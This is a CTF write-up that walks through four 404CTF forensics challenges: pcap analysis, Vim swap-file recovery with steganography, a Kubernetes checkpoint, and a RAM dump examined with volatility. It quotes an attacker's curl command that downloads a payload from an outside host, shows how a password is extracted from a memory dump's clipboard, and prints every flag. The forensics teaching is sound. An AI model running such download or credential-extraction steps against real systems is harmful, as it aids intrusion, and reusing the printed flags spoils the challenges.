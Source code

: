 ```yaml
---
layout: "@layouts/blog/Layout.astro"
title: "404CTF Writeup - Forensics"
description: "404CTF - Forensics Category: The science of investigating and analyzing evidence"
author: "Majed Abdennadher"
timestamp: 1687283789355
duration: 10
tag: "404CTF"
slug: "forensics"
language: "english"
image: "/static/media/404ctf/event_logo.png"
keywords: ["Cybersecurity", "404CTF", "Cryptography"]
links: ["reverse", "binary", "web"]
---
```


### Pêche au livre

Quite an classic challenge. Just open the pcap capture with wireshark. We immediately see an unencrypted HTTP exchange.
Textually, the string `404CTF{...` is not present, so we need to look at the non-textual content: the images:

![](/static/media/404ctf/peche-au-livre-1.png)

The flag is: `404CTF{35SY_W1r35h4rk}`

### Le Mystère du roman d’amour

In this challenge, we are handed Vim swap file `fichier-etrange.swp` and to solve the challenge with must find:

- the PID of the crashed process
- the full path to the file in question (spaces allowed): both the exact form found in the challenge and the extended form beginning with / validate the challenge
- the name of Rouletabille's (a character) friend
- the name of the machine
- the **TEXT** content of the draft of his book (if you have something other than text, keep searching: you need to find text content that clearly resembles the beginning of a novel). Once this content has been found, it will be clearly indicated which part to use to submit the flag (it will be a leet string).

We can use the `file` command to inspect the file given to use and we already find a lot of informations:

```bash
file fichier-etrange.swp
# fichier-etrange.swp: Vim swap file, version 7.4, pid 168, user jaqueline, host aime_ecrire, file ~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt
```

Then we can actually recover the file by opening it in vim using `vim -r fichier-etrange.swp`. We notice that the content is really an image, as revealed by the header `\x89PNG\r\n\x1A\n`.
We then recover it by typing `:w restored.png` in vim.

Here is the image we find:
![](/static/media/404ctf/mystere-du-roman-d-amour-1.png)

We can then use `stegsolve` (_instructions in another blog post [here](/blog/404ctfs/stegano/#l%C5%93uvre)_).
In `stegsolve` we can walk through the different color channels until we stumble upon something interesting: QR code.

![](/static/media/404ctf/mystere-du-roman-d-amour-2.png)

I scanned this image with my phone and I got the following text:

```
Il était une fois, dans un village rempli d'amour, deux amoureux qui s'aimaient...

Bien joué ! Notre écrivaine va pouvoir reprendre son chef-d'oeuvre grâce à vous !
Voici ce que vous devez rentrer dans la partie "contenu du fichier" du flag : 3n_V01L4_Un_Dr0l3_D3_R0m4N
```

Concatenating all of this information, we find the flag: <span class="break-words">`404CTF{168-~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt-jaqueline-aime_ecrire-3n_V01L4_Un_Dr0l3_D3_R0m4N}`</span>

### Les Mystères du cluster de la Comtesse de Ségur

A checkpoint-bash_default-bash-2023-05-06T090421Z.zip file is provided.

At first I tried if I can get the flag for free with it:

```bash
grep -ir 404CTF checkpoint-bash_default-bash-2023-05-12T09:04:21Z
```

No chance.

Let's look at the files manually. A rather interesting file `io.kubernetes.cri-o`. In particular `io.kubernetes.cri-o.LogPath` logs everything that has been executed by the container in the Kubernetes cluster.

```bash
cat checkpoint-bash_default-bash-2023-05-12T09:04:21Z/io.kubernetes.cri-o.LogPath
```

On this file, we can see that a user has become root. Close inspection of this file shows that the attacker is executing:

```bash
....
curl agent.challenges.404ctf.fr -o agent.zip
unzip agent.zip
....
```

Doing the same as they did, when we unzip the `agent.zip` archive, we find a file containing the flag: <span class="break-words">`404CTF{K8S_checkpoints_utile_pour_le_forensic}`</span>.

### Lettres volatiles

In this challenge, we are given an archive file `C311M1N1.zip` containing the home directory of a user on a machine. Let's start by unzipping the file and searching for clues
in various directories such as Images, Downloads, and Documents.

Soon enough, we come across the file `s3cr37.zip` in the `/Documents/perso` folder, which requires a password (this ZIP file contains a suspicious PDF).
Cracking passwords can be time-consuming, so let's explore a more efficient method. While walking through the file system, I found a mysterious file named `C311M1N1-PC-20230514-200525.raw`.
It could be anything but given the challenge's name, there's a chance that it could be a RAM (volatile memory) dump. A widely used tool for analyzing such dumps is [`volatility`](https://github.com/volatilityfoundation/volatility/wiki/Installation).

_[This](https://cyberarms.wordpress.com/2011/11/04/memory-forensics-how-to-pull-passwords-from-a-memory-dump/) is one of the first articles I read about using the tool and also happens to be a good Introduction._

```bash
# Retrieve some information on the RAM dump
vol.py -f C311M1N1-PC-20230514-200525.raw imageinfo
```

The password could be anywhere, and I spent some time looking in different places until I found it: in the clipboard.

```bash
# Dump the clipboard
vol.py -f C311M1N1-PC-20230514-200525.raw --profile Win7SP1 clipboard
# ... Z1p p4s5wOrd : F3eMoBon8n3GD5xQ ...
```

We can now unzip the secrets archive:

```bash
unzip -P F3eMoBon8n3GD5xQ s3cr37.zip
```

Inside, we find this letter:
![](/static/media/404ctf/lettres-volatiles-1.png)

And at the bottom of it, we discover the flag: <span class="break-words">`404CTF{V0147i1I7y_W1Ll_N3v3r_Wr8_loV3_l3ttEr5}`</span>
